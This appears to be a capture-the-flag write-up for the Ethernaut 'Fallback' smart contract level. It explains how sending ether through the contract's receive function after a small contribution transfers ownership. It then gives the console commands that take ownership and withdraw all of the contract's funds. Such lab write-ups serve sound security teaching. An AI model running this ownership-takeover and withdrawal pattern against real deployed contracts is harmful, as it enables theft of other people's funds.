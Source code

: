 ### Level Target

1. Take ownership of the contract.
2. Withdraw all funds from the contract. (Only the owner can do so)

### Break Down & Analyze

1. Two ways to take ownership:
    1. Contribute more eth than the owner does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, and the owner already has 1000 ether of contribution when the contract is built. (unfair, right?)
    2. So the other way to hack the contract is from receive function, in order to call receive, you’ll need to satisfy two conditions.
        * send some eth when calling receive.
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds:
    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    2. Once you become the owner, it is effortless to withdraw all the funds!

### Detailed Steps (work through the console)

```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm if you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
await contract.owner() === player // check if you're the owner now
await contract.withdraw() // take all the funds out from the contract!!!
```
